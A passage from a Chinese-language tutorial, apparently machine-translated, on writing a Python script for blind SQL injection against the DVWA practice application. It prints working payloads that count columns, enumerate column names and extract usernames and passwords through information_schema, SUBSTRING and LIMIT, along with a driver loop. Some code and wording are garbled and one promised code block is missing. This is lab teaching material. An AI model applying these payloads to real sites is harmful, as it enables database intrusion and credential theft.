 有效负载与我们看到的枚举表的有效负载没有太大的不同。
在这种情况下，也可以通过使用[计数](https://dev.mysql.com/doc/refman/8.0/en/aggregate-functions.html#function_count)并将结果与一系列数字(本例中为 1-10)进行比较来获得列数。

这是将返回我们需要的信息的有效载荷:

```
1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name={})={} #
```

这是将使用这个有效负载的代码！

```
query = queries["n_columns"]n_columns = 0
for i in range(1, 10):
    if get_query_result(s, sqli_blind_url, query, get_hex_str(users_table), i):
        print(f"[+] It has {i} columns")
        n_columns = i
        break
```

给定这些信息，我们可以通过使用这个有效负载来获得我们正在寻找的所有选项卡名称:

```
1 AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name={} LIMIT {}, 1),{},1)={} #
```

在本例中，我们列出了所有的表。
想法是一个接一个地获取表，这一次是通过使用 LIMIT 子句来完成的，该子句将 **row_count** 作为第一个参数，将 **index** 作为第二个参数。

代码对你来说并不陌生:

# 步骤 4:获取用户信息

现在我们想要获得用户名和密码，为此我们必须指出我们需要告诉脚本哪些列与这些字段相关。

同样在这种情况下，我们将询问用户目标列的名称:

```
users_column = input("Type the name of the column containing usernames: ")
passwords_column = input("Type the name of the column containing passwords: ")
```

给定这些输入，我们可以列出用户，即使在这种情况下，用户可以停止扫描。

细心的观察者会注意到，这次脚本不会计算用户数量。
但是我更喜欢使用一个合理的值，因为我知道我们会更快地停止扫描。

允许我们这样做的有效载荷如下:

```
1 AND SUBSTR((SELECT {} FROM {} LIMIT {}, 1),{},1)={} #
```

# 步骤 5:获取密码

最后，我们处于 python 脚本的末尾，该脚本将允许我们对具有中等安全级别的 DVWA 执行盲 SQL 注入攻击。
